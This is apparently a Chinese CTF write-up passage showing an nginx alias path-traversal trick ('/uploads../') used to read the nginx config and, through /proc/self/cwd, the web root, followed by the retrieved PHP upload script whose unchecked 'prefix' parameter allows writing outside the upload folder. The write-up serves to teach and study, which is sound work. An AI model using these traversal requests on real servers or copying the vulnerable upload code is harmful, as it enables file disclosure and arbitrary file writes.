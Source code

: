 先看看nginx的配置

```
/uploads../etc/nginx/sites-available/default
```

借用的图

![image-20220807220322562](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220807220322562.png)

读取var下的网站目录，我们通过`/proc/self/cwd`来绕过

```
cwd文件是一个指向当前进程运行目录的符号链接。可以通过查看cwd文件获取目标指定进程环境的运行目录
```

所以：

```
/uploads../proc/self/cwd/var/www/html/
```

读取到index.php

```php+HTML
<!DOCTYPE html>
<html>
<head>
   <title>文件上传</title>
   <meta charset="utf-8">
</head>
<body>
      <form action="index.php" method="post" enctype="multipart/form-data">
      <input type="hidden" name="max_file_size" value="1048576">
      <input type="file" name="file">
      <input type="submit" name="上传">
       </form>
   
</body>
</html>

<?php 
    if($_SERVER['REQUEST_METHOD']=="GET"){
        die(0);
    }
   header("content-type:text/html;charset=utf-8");
   $filename = str_replace("\0","",$_FILES['file']['name']);
    $prefix = isset($_GET['prefix'])?str_replace("\0","",$_GET['prefix']):"";
   $temp_name = $_FILES['file']['tmp_name'];
   $size = $_FILES['file']['size'];
   $error = $_FILES['file']['error'];
   if ($size > 2*1024*1024){
      echo "<script>alert('文件大小超过2M大小');window.history.go(-1);</script>";
      exit();
   }
   $arr = pathinfo($filename);
   $ext_suffix = $arr['extension'];
   $allow_suffix = array('jpg','gif','jpeg','png',"bin","hex","dat","docx","xlsx");
   if(!in_array($ext_suffix, $allow_suffix)){
      echo "<script>alert('上传的文件类型只能是jpg,gif,jpeg,png,bin,hex,dat');window.history.go(-1);</script>";
      exit();
   }
   if (move_uploaded_file($temp_name, '/uploads/'.$prefix.$filename)){
      echo "<script>alert('文件上传成功! Path /uploads/$prefix$filename');</script>";
   }else{
      echo "<script>alert('文件上传失败,错误码：$error');</script>";
   }
```